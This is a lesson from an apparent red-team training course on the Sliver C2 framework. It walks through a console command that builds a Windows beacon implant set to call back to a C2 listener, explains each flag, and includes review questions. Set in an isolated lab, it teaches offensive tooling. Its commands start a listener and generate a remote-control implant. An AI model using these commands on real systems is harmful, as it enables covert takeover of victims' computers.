

# Lesson 5 — Reading a Generation Command { #lesson-5-reading-generation-commands }

**Goal:** Explain which computer the generated program is intended to run on and which address it will contact.

## Lab roles and addresses { #lab-roles-and-addresses }

All commands below are examples for an authorized, isolated lab. The addresses are illustrative, not a claim that this environment has been deployed. Assume the operator uses the Sliver server console directly on Linux.

| Computer | Address | Role |
|---|---|---|
| Linux lab server | `192.168.56.10` | Sliver Server and C2 listener |
| Windows lab PC | `192.168.56.20` | Runs the generated implant |



The program must **run on Windows** and **contact the Linux server**. Those are separate settings.

## Match the listener and callback { #match-listener-and-callback }

In the **Sliver console**, inspect the existing listeners:

```text
jobs
```

If the intended listener is not already running, the example from Lesson 2 starts it:

```text
http --lhost 192.168.56.10 --lport 8080
```

Do not try to start another listener on the same occupied address and port. The listener receives communication at `192.168.56.10:8080`; the implant must be configured with a reachable callback endpoint matching that service.

## Read the full generation command { #read-the-generation-command }

Enter this as **one line in the Sliver console**, after checking the installed version's help:

```text
generate beacon --http http://192.168.56.10:8080 --os windows --arch amd64 --format exe --seconds 60 --jitter 0 --save ./lesson5-beacon.exe
```

| Part | Question answered | Meaning in this example |
|---|---|---|
| `generate beacon` | What are we generating? | A beacon implant |
| `--http http://192.168.56.10:8080` | Where will it contact C2? | The lab HTTP listener |
| `--os windows` | Which OS will run the implant? | Windows |
| `--arch amd64` | Which instruction-set architecture? | x86-64 |
| `--format exe` | What output form? | Executable |
| `--seconds 60` | What base check-in interval? | 60 seconds |
| `--jitter 0` | Add random timing variation? | None in this observation example |
| `--save ./lesson5-beacon.exe` | Where to save the result? | The named file in the console application's current directory |

The example is grounded in the [official generation implementation](https://github.com/BishopFox/sliver/blob/master/client/command/generate/generate.go) and [beacon generation implementation](https://github.com/BishopFox/sliver/blob/master/client/command/generate/generate-beacon.go). Verify version-specific options with:

```text
help generate beacon
```

## Target OS and CPU architecture { #target-os-and-architecture }

`--os windows` specifies the **implant's execution target**, not the operating system hosting Sliver Server. Building a program for another target platform is called **cross-compilation**. Actual build availability also depends on the tool and build environment.

```text
Request a build from Linux
             ↓
Generate a Windows executable
             ↓
Run the result on the Windows lab PC
```

`amd64` means **x86-64** here; it is not restricted to AMD-branded processors. Compatible Intel processors can also use it. ARM64 is a different architecture: “64-bit” alone does not make the architectures interchangeable.

## Callback address versus download address { #callback-versus-download }

`--http` in the generation command configures the endpoint used by the **running implant for C2**. It is not the address at which Windows automatically downloads the generated file.

| Address purpose | Meaning |
|---|---|
| File delivery | Where Windows obtains the generated output |
| C2 callback | Where the running implant obtains tasks and returns results |

Using `--http` does not itself make the output a stager. This example generates a complete beacon executable; the delivery of that executable is a later step.

## Where the output is saved { #where-output-is-saved }

`--save` does not transfer the file to the target PC. It saves the returned output on the filesystem of the console application being used. With a server console, that is the server machine. With a separate client, it is the client side.

Therefore, saving `./lesson5-beacon.exe` from the Linux server console does not place a file on the Windows desktop. Check the actual save-completion message for its location.

## Timing is a configuration, not a stopwatch guarantee { #timing-configuration }

The example uses a 60-second base interval and zero added jitter to make the timeline easier to observe. Actual communication timing can still be affected by task processing, scheduling, and the network.

Also separate **initial registration** from **subsequent periodic check-ins**. The option does not mean the newly started implant must remain completely silent for its first 60 seconds.

## Verify what generation achieved { #verify-generation }

In the **Sliver console**:

```text
implants
```

Check the build entry, the generation result, and the reported output path. Successful generation supports the conclusion that a build and output were produced. It does not prove delivery, execution, registration, recurring check-ins, or successful remote task completion.

## Review questions { #review-questions }

1. Sliver Server runs on Linux and the target PC runs Windows. Which value belongs in `--os`?
2. The server is `192.168.56.10` and the target is `192.168.56.20`. Which belongs in this example's `--http` endpoint?

??? success "Answers and reasoning"
    **1. `windows`.** The option describes where the implant will execute.

    **2. `http://192.168.56.10:8080`.** The implant contacts the C2 server's listener, not its own target-PC address.

    Read the command as: “Build a Windows beacon executable that contacts the listener at 192.168.56.10:8080.” File delivery and target execution still come afterward.

[Continue to Lesson 6 — Delivery, execution, and connection evidence](lesson-6-delivery-execution-and-evidence.md)
